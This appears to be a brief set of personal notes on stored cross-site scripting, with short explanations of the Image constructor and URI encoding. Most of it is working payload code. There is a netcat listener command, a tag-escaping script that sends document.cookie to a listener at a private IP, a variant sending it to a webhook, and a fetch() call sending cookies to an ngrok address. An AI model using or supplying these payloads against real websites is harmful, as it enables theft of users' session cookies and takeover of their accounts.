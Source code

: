 
```sh
nc -nvlp 4444
```

stored xss

 `escape <p> tag first`

```html
</p> <script>new Image().src="http://192.168.57.5:4444/?"+ encodeURI(document.cookie);</script>
```

```html
</p><script>var i=new Image; i.src="webHookAddress/?"+document.cookie;</script>
```

new Image() contructor create an image object
it is similar to

document.createElement("image")

The encodeURIComponent() function encodes a URI by replacing each instance of certain characters by one, two, three, or four escape sequences representing the UTF-8

```js
fetch(`https://ae1c-43.ngrok-free.app?${encodeURIComponent(document.cookie)}`, { method: "get", headers: new Headers({ "ngrok-skip-browser-warning": true }) })
```
